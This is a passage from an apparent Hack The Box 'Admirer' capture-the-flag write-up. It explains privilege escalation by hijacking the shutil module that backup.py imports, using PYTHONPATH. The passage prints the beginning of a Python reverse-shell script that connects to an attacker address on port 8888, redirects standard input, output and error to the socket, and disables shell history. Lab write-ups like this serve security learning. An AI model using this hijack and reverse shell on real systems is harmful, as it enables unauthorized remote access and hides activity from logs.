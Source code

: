 ![97964aa0fdf4f7a556aaa9ec36aa957a.png](/images/htb-admirer/210c058afe484a88a36054ee916580f0.png)

Let's take a closer look at `backup.py`.

![2f60018b108eefde56fc07ba304ddf57.png](/images/htb-admirer/4e3ae80f3f0d4a10a2193ed5ae8337fd.png)

After a bit of searching, I managed to find [this blog post](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) explaining Python library hijacking, as well as [this Medium article](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) (*specifically Scenario 3*) explaining how to do it in more detail. 

To exploit this, we need to create a script named `shutil.py` in a directory, and set the `$PYTHONPATH` environment variable to point to this directory instead of the real Python directory. 

Our script will look like this: 

```python
#!/usr/bin/python3

import os
import pty
import socket

lhost = "10.10.14.43"
lport = 8888

def make_archive(a,b,c):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((lhost, lport))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        os.putenv("HISTFILE",'/dev/null')
```